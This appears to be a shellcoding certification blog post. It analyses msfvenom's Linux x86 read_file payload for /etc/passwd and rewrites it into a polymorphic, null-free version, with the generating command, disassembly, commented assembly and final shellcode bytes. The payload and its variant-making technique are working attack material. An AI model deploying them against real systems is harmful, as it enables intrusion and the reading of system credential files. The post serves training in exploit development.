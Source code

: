 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```x86asm
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Next, the original shellcodes does the jmp, call, pop technique to get a pointer to a string. The string is the filename to be read. In this case, I want to remove null bytes from my shellcode, thus I will push values to the stack and move the stack pointer into my register. To push the string terminating null, I will load the string "/etc//passwd" onto the stack and get a pointer to it's address.

```x86asm
; pop ebx         ; <addr> 0x3D (filename from stack)
xor ebx, ebx
push ebx
push 0x64777373         ; "dwss"
push 0x61702f2f         ; "ap//"
push 0x6374652f         ; "cte/" 
mov ebx, esp
```

Note that I have pushed an entire dword of `0x00000000` to the stack as a string terminator by the `push ebx` instruction. Interestingly, I tried to rewrite this to push only a single `0x0` to the stack. I ended up with this code that will essentially load a `0xff` into `ebx` that will be shifted out for a null and placed onto the stack as a null terminator.

```x86asm
mov ebx, 0x647773ff  
shr ebx, 0x8
push ebx
push 0x7361702f         
push 0x6374652f         

mov ebx, esp
```

Unfortunately, this is an extra byte in length than the alternative solution above, so I opted not to use it. But it was fun to work with the `shr` instruction and get another polymorphic variation working.

Then, I change the `mov, 0x3` with an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```x86asm
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```x86asm
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```x86asm
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```x86asm
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```x86asm
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```x86asm
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```x86asm
global _start

section .text
_start:
    ;mov eax, 0x5
    push 0x5
    pop eax


    ; pop ebx         ; <addr> 0x3D (filename from stack)
    xor ebx, ebx
    push ebx
    push 0x64777373         ; "dwss"
    push 0x61702f2f         ; "ap//"
    push 0x6374652f         ; "cte/" 
    mov ebx, esp

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()
```

## New Shellcode

```c
"\x6a\x05\x58\x31\xdb\x53\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x29\xc9\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe7\x89\xf9\xb6\x10\xcd\x80\x89\xc2\x31\xc0\xb0\x04\x31\xdb\x43\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
```


## Conclusion

Metasploit payload was 73 bytes with nulls.

My new shellcode is 59 bytes without nulls.



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

